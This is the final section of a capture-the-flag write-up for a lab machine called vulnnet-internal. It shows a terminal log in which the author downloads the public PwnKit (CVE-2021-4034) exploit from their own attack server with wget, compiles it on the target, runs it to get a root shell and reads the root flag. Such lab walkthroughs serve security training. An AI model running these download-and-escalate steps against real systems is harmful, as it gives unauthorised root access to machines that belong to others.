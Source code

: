 On my attack box, I downloaded the exploit and served it via the python web server.  I downloaded the exploit on the victim box, build it, ran it and we now have root and our final flag!:  

```
<username>@vulnnet-internal:/tmp$ wget -r http://10.9.0.28:8000/main
--2022-11-19 21:34:01--  http://10.9.0.28:8000/main
Connecting to 10.9.0.28:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/zip]
Saving to: ‘main’

main                                                    [ <=>                                                                                                               ]   6.31K  --.-KB/s    in 0.001s  

2022-11-19 15:29:02 (5.09 MB/s) - ‘main’ saved [6457]


<username>@vulnnet-internal:/tmp$ file main                    
main: Zip archive data, at least v1.0 to extract, compression method=store
<username>@vulnnet-internal:/tmp$ unzip main                   
Archive:  main
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  

<username>@vulnnet-internal:/tmp$ cd CVE-2021-4034-main 
<username>@vulnnet-internal:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
<username>@vulnnet-internal:/tmp/CVE-2021-4034-main$ ./cve-2021-4034 
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
<REDACTED>
# 
```
